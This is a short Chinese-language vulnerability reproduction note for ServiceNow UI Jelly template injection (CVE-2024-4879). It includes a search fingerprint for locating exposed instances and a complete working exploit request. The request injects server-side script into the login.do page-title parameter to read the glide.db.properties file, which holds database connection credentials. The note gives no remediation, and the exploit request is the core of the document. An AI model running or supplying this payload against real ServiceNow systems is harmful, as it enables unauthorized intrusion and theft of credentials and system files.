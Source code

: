 # ServiceNowUI Jelly模板注入漏洞(CVE-2024-4879)

# 一、漏洞简介
ServiceNow UI (用户界面)是ServiceNow平台提供的一种直观、现代化的用户交互方式。它采用响应式设计,能在各种设备上显示良好,并提供直观的导航菜单和面包屑功能,让用户能快速找到所需的功能和信息。同时,ServiceNow UI 支持个性化设置,用户可以自定义UI的外观和布局。针对移动设备,ServiceNow UI也进行了优化,提供了触摸优先的交互方式。总的来说, ServiceNow UI旨在为用户提供一种简单、统一且高效的使用体验,满足他们在ServiceNow平台上的各种需求。其存在CVE-2024-4879 Jelly模板注入漏洞攻击者可通过此漏洞执行代码，读取系统文件内容。

# 二、影响版本
ServiceNowUI

# 三、资产测绘
```plain
icon_hash="1701804003"
```

![1720973227671-1bceec68-98aa-4ef0-9f45-36b23f5dc3ba.png](./img/eccG_4hJp1WG4yXc/1720973227671-1bceec68-98aa-4ef0-9f45-36b23f5dc3ba-174564.png)

# 四、漏洞复现
```plain
GET /login.do?jvar_page_title=%3Cstyle%3E%3Cj:jelly%20xmlns:j=%22jelly:core%22%20xmlns:g=%27glide%27%3E%3Cg:evaluate%3Ez=new%20Packages.java.io.File(%22%22).getAbsolutePath();z=z.substring(0,z.lastIndexOf(%22/%22));u=new%20SecurelyAccess(z.concat(%22/co..nf/glide.db.properties%22)).getBufferedReader();s=%22%22;while((q=u.readLine())!==null)s=s.concat(q,%22%5Cn%22);gs.addErrorMessage(s);%3C/g:evaluate%3E%3C/j:jelly%3E%3C/style%3E%22 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
```

![1720973158902-350dace2-a8d1-4572-9aac-5d7b771fc939.png](./img/eccG_4hJp1WG4yXc/1720973158902-350dace2-a8d1-4572-9aac-5d7b771fc939-610384.png)



> 更新: 2024-08-12 17:16:00  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/pz31klo12bw4m464>